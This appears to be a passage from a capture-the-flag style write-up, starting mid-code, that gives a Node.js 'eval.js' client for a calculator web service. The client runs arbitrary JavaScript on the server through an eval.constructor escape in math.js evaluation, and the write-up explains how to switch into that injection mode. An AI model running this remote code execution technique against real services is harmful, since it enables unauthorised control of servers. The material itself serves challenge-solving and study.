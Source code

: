```javascript
    console.log("Up!");
});
```

# For those interested here is my eval.js script

To use it you can just enter regular commands as on the calculator on the website. It will return the same. But to exploit the remote js execution command just write "fn" to swap to function mode where it automatically injects the javascript and evaluates it.

So > means eval mode (math.js eval)
annd $ means javascript mode. 

```javascript
const readline = require('readline');
const http = require('http');

const defaultOptions = {
    host: 'grinchcalculator.ambitiousbeach-e7bbe16d.norwayeast.azurecontainerapps.io',
    port: 80,
    headers: { 'Content-Type': 'application/json' }
}

const post = (path, payload) => new Promise((resolve, reject) => {
    const options = { ...defaultOptions, path, method: 'POST' };
    const req = http.request(options, res => {
        let buffer = "";
        res.on('data', chunk => buffer += chunk)
        res.on('end', () => resolve(buffer))
    });
    req.on('error', e => reject(e.message));
    req.write(JSON.stringify(payload));
    req.end();
});

var rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
});

let history = [];

rl.on('line', async (input) => {
    if(input == "fn") { rl.setPrompt("$ "); rl.prompt(true); return true; }
    if(input == "ev") { rl.setPrompt("> "); rl.prompt(true); return true; }

    if (rl.getPrompt() == "$ ") {
        history.push(input);
        input = `eval.constructor("return (() => {${input.replace(/(["'])/g, "\\$1")}})()")()`;
        let data = await post("/evaluate", { exp: input })
        console.log(data);
    } else {
        history.push(input);
        let data = await post("/evaluate", { exp: input })
        console.log(data);
    }
    rl.prompt(true);
});

rl.on('keypress', (str, key) => {
    if (key.name === 'up' && history.length > 0) {
        const previousCommand = history[history.length - 1];
        rl.setInput(previousCommand);
```